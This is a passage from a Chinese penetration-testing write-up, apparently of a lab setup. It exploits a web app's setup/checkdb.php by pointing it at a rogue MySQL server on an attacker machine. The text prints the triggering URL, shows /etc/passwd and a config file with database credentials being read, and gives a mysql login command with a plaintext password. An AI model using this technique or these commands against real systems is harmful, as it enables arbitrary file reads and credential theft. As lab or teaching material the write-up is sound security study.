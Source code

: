 ```php
	if (mysql_query("CREATE DATABASE {$dbname} DEFAULT CHARACTER SET utf8 COLLATE utf8_general_ci",$con)){
	  echo "1";
	}else{
	  echo mysql_error();
	}
	mysql_close($con);
}
exit;
?>
```

通过rogue-mysql-server读取/etc/passwd

![Untitled](https://i.loli.net/2021/10/03/1tDJyipG5gIlzKd.png)

使用python2.x运行Rogue-MySql-Server服务，运行伪造mysql服务器，等待连接

![Untitled](https://i.loli.net/2021/10/03/wlCr81MJxY4RZta.png)

访问url触发漏洞,192.168.0.128是攻击机，这里ip进行了更改，为了统一，之后三台主机会分别统称攻击机、内网1号机（1号机）、内网2号机（2号机）

```python
http://www.ddd4.com/setup/checkdb.php?dbname=mysql&uname=root&pwd=123456&dbhost=192.168.0.128&action=chkdb
```

访问url触发，漏洞触发还导致暴露了根目录

![Untitled](https://i.loli.net/2021/10/03/VsPIgKqbNeXmGZL.png)

再看mysql.log文件，etc/passwd文件内容已经读取到了

![Untitled](https://i.loli.net/2021/10/03/GgQjRSUpc64TZre.png)

再根据暴露出来的根目录修改脚本，读取doc-config-cn.php文件内容

![Untitled](https://i.loli.net/2021/10/03/sDlRuv6N859MYqx.png)

可以看到DB_DBNAME、DB_USER、DB_PASSWORD几个字段，有了这些字段就可以连接到目标数据库了

![Untitled](https://i.loli.net/2021/10/03/4XRGzOEd89KcBNm.png)

连接目标数据库

```python
mysql -h192.168.0.122 -uwww_ddd4_com -px4ix6ZrM7b8nFYHn
```

![Untitled](https://i.loli.net/2021/10/03/ed45rguZpG2SxDs.png)

## 代码审计-破解算法登陆后台

这里是后台地址
